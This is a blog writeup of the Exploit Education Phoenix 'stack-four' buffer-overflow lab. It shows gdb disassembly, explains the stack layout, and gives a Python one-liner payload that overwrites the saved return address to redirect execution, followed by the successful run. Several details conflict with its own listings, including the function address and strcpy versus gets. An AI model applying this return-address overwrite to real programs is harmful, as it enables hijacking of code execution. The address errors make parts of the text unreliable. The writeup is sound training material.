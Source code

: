 ```yaml
---
layout: post
title: Stack Four Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Four exercise stack-overflow vulnerability with learning resources.
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Two, Stack Four exercise motive is to smash the stack to modify other variables in the stack to a `hex value` and technically overwrite `function pointer` in the stack. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the buffer which isn't dynamically being allocated by `malloc` function, so probably the start_level function which contains both `char buffer[64]` and `return address` function pointer stays in same stackframe. This overwritten function pointer will be further used to invoke in later part of the program.
`
### Disassemble

Disassembling the code will get you overall idea behind the stack-four code, One can use `gdb ./stack-four` to start debugging it in runtime.

1. `gdb ./stack-four`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x000000000040066a <+0>:     push   rbp
   0x000000000040066b <+1>:     mov    rbp,rsp
   0x000000000040066e <+4>:     sub    rsp,0x10
   0x0000000000400672 <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x0000000000400675 <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x0000000000400679 <+15>:    mov    edi,0x400750
   0x000000000040067e <+20>:    call   0x400480 <puts@plt>
   0x0000000000400683 <+25>:    mov    eax,0x0
   0x0000000000400688 <+30>:    call   0x400635 <start_level>
   0x000000000040068d <+35>:    mov    eax,0x0
   0x0000000000400692 <+40>:    leave
   0x0000000000400693 <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x0000000000400635 <+0>:     push   rbp
   0x0000000000400636 <+1>:     mov    rbp,rsp
   0x0000000000400639 <+4>:     sub    rsp,0x50
   0x000000000040063d <+8>:     lea    rax,[rbp-0x50]
   0x0000000000400641 <+12>:    mov    rdi,rax
   0x0000000000400644 <+15>:    call   0x400470 <gets@plt>
   0x0000000000400649 <+20>:    mov    rax,QWORD PTR [rbp+0x8]
   0x000000000040064d <+24>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000000000400651 <+28>:    mov    rax,QWORD PTR [rbp-0x8]
   0x0000000000400655 <+32>:    mov    rsi,rax
   0x0000000000400658 <+35>:    mov    edi,0x400733
   0x000000000040065d <+40>:    mov    eax,0x0
   0x0000000000400662 <+45>:    call   0x400460 <printf@plt>
   0x0000000000400667 <+50>:    nop
   0x0000000000400668 <+51>:    leave
   0x0000000000400669 <+52>:    ret
```

If you carefully check the source, you might miss `complete_level` in the above disassembled code. You can go ahead and type `disassemble complete_level` in the gdb prompt,

```assembly
   0x000000000040061d <+0>:     push   rbp
   0x000000000040061e <+1>:     mov    rbp,rsp
   0x0000000000400621 <+4>:     mov    edi,0x4006f0
   0x0000000000400626 <+9>:     call   0x400480 <puts@plt>
   0x000000000040062b <+14>:    mov    edi,0x0
   0x0000000000400630 <+19>:    call   0x400490 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-four using gdb to view the assembly instruction, you may notice the puts, start_level, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-four, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x400635`
4. Accepts user input via `gets` method with `buffer` memory address.
5. Invoke `__builtin_return_address` method to get the `rip` register address which is already stored in stack
6. Print the return address via `puts` method.

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite return address in the stack with your own return address to a function and therefore redirecting the program flow to achieve code execution. In the ideal exploit world, you may overwrite the return address and redirect to `system` function to achieve remote code execution. In this exercise, you might want to overwrite the return address stored in the `start_level` stackframe and redirect the program flow to `complete_level`. The return address is used by `$rip` register aka instruction pointer which is responsible for loading next instruction of the program.

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe650`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). After series of steps, `start_level` is invoked pushing $rbp again to `0x7fffffffe640` and $rsp to `0x7fffffffe5f0`.

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-four-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5f0` and `$rip` register (4 bytes) at `rbp-0x10` i.e `0x7fffffffe650`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rip` aka return address stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x08` i.e `0x7fffffffe648`.

### Exploit

As previously discussed `buffer` and `$rip` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the $rip register (instruction pointer), but if you do the same with 88 characters + 4 character (actual $rip), you have succesfully overwritten `$rip` register. However, our challenge is to overwrite return address ($rip) with `complete_level` function memory address. So, How do I get the `complete_level` function loaded memory address? Simple, use gdb disassemble `disassemble complete_level` command and note down the starting `$rbp` address aka `0x4001d` (ignore the padding zeros).

If you try generating the payload simply  `(A * 88) + '\x40\x06\x1d'`, this would represent in the memory as `88 'A's & 0x40069d` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*88 + '\x1d\x06\x40'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-four-gdb.jpg)

### Result

`> r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")` in gdb prompt.

```assembly
(gdb) r <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Starting program: /opt/phoenix/amd64/stack-four <<< $(python -c "print('A'*88 + '\x1d\x06\x40')")
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x40061d
Congratulations, you've finished phoenix/stack-four :-) Well done!
[Inferior 1 (process 317) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Source and Reference:

1. Stack Four Exercise: [Exploit Education](https://exploit.education/phoenix/stack-four/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
